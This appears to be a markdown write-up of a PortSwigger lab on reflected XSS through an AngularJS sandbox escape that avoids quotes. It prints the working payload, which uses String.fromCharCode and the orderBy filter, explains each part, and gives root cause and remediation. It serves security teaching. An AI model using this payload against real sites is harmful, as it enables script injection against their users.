



### Reflected XSS with AngularJS Sandbox Escape Without Strings

**Category:** Cross-Site Scripting (XSS)  
**Difficulty:** Practitioner  
**Platform:** PortSwigger Web Security Academy

### Overview
This lab demonstrates a **Reflected Cross-Site Scripting (XSS)** vulnerability in an application using an older version
of **AngularJS**. User input from the search parameter is reflected into an AngularJS expression, allowing the 
application to evaluate attacker-controlled input.

The challenge is to escape the AngularJS sandbox **without using string literals** (single or double quotes).
This is achieved by abusing AngularJS internals and dynamically constructing strings with `String.fromCharCode()`.



### Explanation Steps

1. Open the vulnerable blog page.

2. In the browser's address bar, append the following payload to the `search` parameter:

```text
?search=1&toString().constructor.prototype.charAt=[].join;[1]|orderBy:toString().
constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```

3. Navigate to the crafted URL.

4. AngularJS evaluates the injected expression. The payload bypasses the sandbox restrictions, dynamically constructs `alert(1)` without using quotes, and executes JavaScript.

 

5. Once the payload executes successfully, the lab is marked as solved.

 


### Payload Used

```text
1&toString().constructor.prototype.charAt=[].join;[1]|orderBy:toString().
constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```

### Payload Explanation

```javascript
toString().constructor.prototype.charAt=[].join;
[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```

- `toString().constructor` obtains the JavaScript `Function` constructor.
- `prototype.charAt=[].join` overrides the native `charAt()` method, bypassing AngularJS sandbox restrictions.
- `String.fromCharCode()` (accessed via `constructor.fromCharCode`) constructs the string `x=alert(1)` using ASCII values, eliminating the need for quotation marks.
- The `orderBy` filter forces AngularJS to evaluate the supplied expression.
- As a result, `alert(1)` executes, confirming successful code execution.


### Root Cause

The application reflects unsanitized user input directly into an AngularJS expression. Because AngularJS automatically
evaluates expressions, attackers can execute arbitrary JavaScript by escaping the sandbox. Blocking quotation marks
is ineffective since JavaScript strings can be generated dynamically using character codes.

### Remediation

- Never render untrusted user input inside AngularJS expressions.
- Upgrade to a supported framework version, as AngularJS is end-of-life.
- Treat user input as data rather than executable code.
- Apply proper output encoding based on the rendering context.
- Avoid relying on blacklist filtering of characters such as quotes.
- Implement a strong **Content Security Policy (CSP)** to reduce the impact of XSS.

### Key Takeaways

- AngularJS sandbox protections in older versions are not a reliable security boundary.
- Blocking quotation marks alone does not prevent XSS.
- `String.fromCharCode()` can be used to construct strings without quotes.
- The `orderBy` filter has historically been abused to evaluate attacker-controlled expressions.
- Proper output encoding, framework updates, and avoiding dynamic expression evaluation are essential defenses against AngularJS-based XSS.
